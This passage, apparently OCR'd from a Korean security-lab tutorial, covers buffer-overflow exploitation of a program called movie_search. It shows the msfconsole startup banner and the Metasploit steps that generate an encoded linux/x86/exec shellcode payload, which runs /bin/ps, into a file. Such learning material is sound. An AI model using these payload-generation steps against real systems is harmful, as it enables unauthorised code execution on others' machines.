 ```php
    }
```

* **movie_search**라는 프로그램을 사용하는데 여기에 버퍼오버플로를 발생시킬 수 있음

### 1. msfconsole 실행하기

```bash
root@ming:~# msfdb init
A database appears to be already configured, skipping initialization
root@ming:~# msfconsole
                                                  

                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


       =[ metasploit v4.16.15-dev                         ]
+ -- --=[ 1700 exploits - 968 auxiliary - 299 post        ]
+ -- --=[ 503 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
```

### 2. 메타스플로잇 쉘에서 페이로드(ShellCode) 만들기

```bash
msf > use linux/x86/exec
msf payload(exec) > show options

Module options (payload/linux/x86/exec):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD                    yes       The command string to execute

msf payload(exec) > set cmd /bin/ps
cmd => /bin/ps
msf payload(exec) > generate -b '\x00' -e x86/opt_sub -t raw -f /tmp/payload.txt[*] Writing 205 bytes to /tmp/payload.txt...
msf payload(exec) > exit
```

